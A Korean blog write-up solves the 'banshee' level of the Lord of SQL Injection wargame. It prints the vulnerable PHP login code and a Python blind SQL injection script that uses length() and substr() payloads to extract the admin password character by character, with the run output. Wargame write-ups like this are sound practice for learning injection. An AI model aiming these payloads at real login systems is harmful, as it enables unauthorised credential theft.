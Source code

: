 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - banshee 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


분명히 하루에 한개씩 올리기로 했는데 몇 주 정신없다가 정신차려보니 벌써 7월이다.  

몇 개 안남았으니 후딱 올려야겠다.  

`SQLite`의 세 번째 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from member where id='admin' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/banshee.db");
  if(preg_match('/sqlite|member|_/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from member where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id']) echo "<h2>login success!</h2>";

  $query = "select pw from member where id='admin'"; 
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("banshee"); 
  highlight_file(__FILE__);
?>
```

이번에는 `id`는 입력받지 않고, `pw`만 입력 받는다.  

`id='admin'`는 이미 있기 때문에, 문제를 풀기 위해서는 `admin`의 정확한 `pw`값을 입력해야 한다.  

그래서 아래와 같이 소스코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and length(pw)=" + str(i) + " -- "
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'login success!' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'login success!' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

먼저 `1' or id='admin' and length(pw)=1` 형태의 쿼리를 입력 해 `pw`의 길이를 알아냈다.  

이 후, `pw`의 값을 한 글자 씩 찾아 비교하기 위해 `substr(pw, 1, 1)='a'`의 쿼리를 사용했다.  

해당 코드를 실행하면 결과는 다음과 같다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 03
[+] Found 3 : 031
[+] Found 4 : 0313
[+] Found 5 : 03130
[+] Found 6 : 031309
[+] Found 7 : 0313091
[+] Found 8 : 0313091b
[+] Found password :  0313091b
[+] End
```

정상적으로 `pw` 값을 추출할 수 있었다.  

해당 값을 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?pw=0313091b
```

```php
--------------------------------------------------------------------------
query : select id from member where id='admin' and pw='0313091b'
--------------------------------------------------------------------------

login success!
BANSHEE Clear!

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/banshee.db");
  if(preg_match('/sqlite|member|_/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from member where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id']) echo "<h2>login success!</h2>";

  $query = "select pw from member where id='admin'"; 
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("banshee"); 
  highlight_file(__FILE__);
?>
```

`BANSHEE Clear`
